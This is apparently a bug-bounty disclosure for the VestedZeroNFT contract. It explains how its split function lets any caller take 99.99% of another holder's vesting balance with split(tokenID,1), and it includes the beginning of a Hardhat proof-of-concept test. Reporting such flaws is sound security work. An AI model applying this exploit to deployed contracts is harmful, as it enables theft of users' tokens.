 So the function just checks that the owner is not zero. 

So the attacker can use this function to steal most fraction of the VestedZeroNFT tokenID. 

The attacker can call 
```solidity
split(tokenID,1)
```
For the tokenID, the attacker can use any existed tokenID. 

The fraction is 1 to steal most of current tokenID to mint a new tokenID for the attacker. 

For example, if Ant has a tokenID for example = 2 that: 
pending = 10_000 * 10**18 

After the hack, 
The tokenID = 2 
pending = 1 * 10**18 

The hacker new minted tokenID has 

pending = 9999 * 10** 18 

So 99.99% amount of pending of Ant's tokenID was stolen by the attacker. 

The attacker can steal from tokenID of any owner, including the StakingBonus contract. 

# Impacts
# About the severity assessment

So the bug allow attackers to steal the VestedZeroNFT token of users.  
So the Severity is Critical with Category: Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties

        
## Proof of concept
# Proof of Concept

Test code POC: 
```typescript
it("Direct theft of ZeroVestedNFT", async function () {
    console.log("Create the pre-condition setup for attack: User Ant has 1 VestedZeroNFT");
    let lastTokenId = await vest.lastTokenId();
    console.log("The address of the owner of the lastTokenId: ", await vest.ownerOf(lastTokenId));
    console.log("The address of StakingBonus contract: ", stakingBonus.target.toString());

    console.log("Mint a VestedZeroNFT for Ant by calling mint() function of VestedZeroNFT contract"); 
    tokenId = await vest.mint(
      ant.address,
      e18 * 10000n, // 10000 ZERO linear vesting
      0, // 0 ZERO upfront
      1000, // linear duration - 1000 seconds
      0, // cliff duration - 0 seconds
      now + 1000, // unlock date
      false, // penalty -> false
      0
     );

    
    console.log("Zero balance of Ant", await zero.balanceOf(ant.address));
    console.log("Zero balance of vestZeroNFT contract", await zero.balanceOf(vest.target));
    lastTokenId = await vest.lastTokenId();
    console.log("Ant address: ", ant.address);
    
```